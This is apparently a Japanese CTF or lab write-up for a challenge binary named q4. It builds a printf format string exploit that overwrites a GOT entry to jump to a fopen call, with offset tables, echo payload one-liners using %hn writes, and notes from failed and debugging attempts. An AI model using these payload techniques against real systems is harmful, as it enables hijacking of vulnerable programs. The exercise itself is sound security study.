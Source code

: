 ## 攻撃のまとめ
 - fopen関数の番地は, `0x080484a4`
 - printf関数の番地は, `0x080484b4`
 - printf関数内で呼び出しているのは, `0x080499f0`なので, これを`0x080486a0`に上書きする

|入力アドレス|出力バイト数|総出力バイト数|補足|
|:-:|:-:|:-:|:-:|
|0x080499f0|4|4|4バイトずつ攻撃|
|0x080499f2|4|8|''|
|%39400x|39400|39408|39408(0x99f0)-8=39400|
|%6$n|0|39408|引数は6個目から|
|%28180x|28180|67588|67588(0x0804)-39408=28180|
|%7$n|0|67588|次は7個目|

```bash=
echo -e '\xf0\x99\x04\x08\xf2\x99\x04\x08%39400x%6$hn%28180x%7$hn' | ./q4
```

 - 通らない
 - printf(0x80499f0)の代わりにputchar(0x80499e0)を使ってみる
```bash=
[q4@localhost ~]$ echo -e '\xe0\x99\x04\x08\xe2\x99\x04\x08%39400x%6$hn%28180x%7$hn' | ./q4
~~ 略 ~~~
Segmentation Fault
~~ 略 ~~~
```

 - gdbで原因を探る
```bash=
[q4@localhost ~]$ echo -e 'r\n\xe0\x99\x04\x08\xe2\x99\x04\x08%39400x%6$hn%28180x%7$hn' | gdb -q ./q4
Reading symbols from /home/q4/q4...(no debugging symbols found)...done.
(gdb) Hangup detected on fd 0
error detected on stdin
```

 - パイプでバグって正しい結果が出力できていないらしい
     - ref. https://stackoverflow.com/questions/8121823/gdb-pipe-redirection-error-gdb-hangup-detected-on-fd-0
 - 引数ではなく, 呼び出す番地が正しくないという仮説をたててみる
 - fopenを直接呼ぶのではなく, その少し前を呼ぶのはどう?
 - jne命令がある(0x0804868f)ので, その後(0x08048691)からなら呼べそう
 - まとめると次のような感じ

|入力アドレス|出力バイト数|総出力バイト数|補足|
|:-:|:-:|:-:|:-:|
|0x080499f0|4|4|4バイトずつ攻撃|
|0x080499f2|4|8|''|
|%34441x|34441|34449|34449(0x8691)-8=34441|
|%6$n|0|34449|引数は6個目から|
|%33139x|33139|67588|67588(0x10804)-34449=33139|
|%7$n|0|67588|次は7個目|
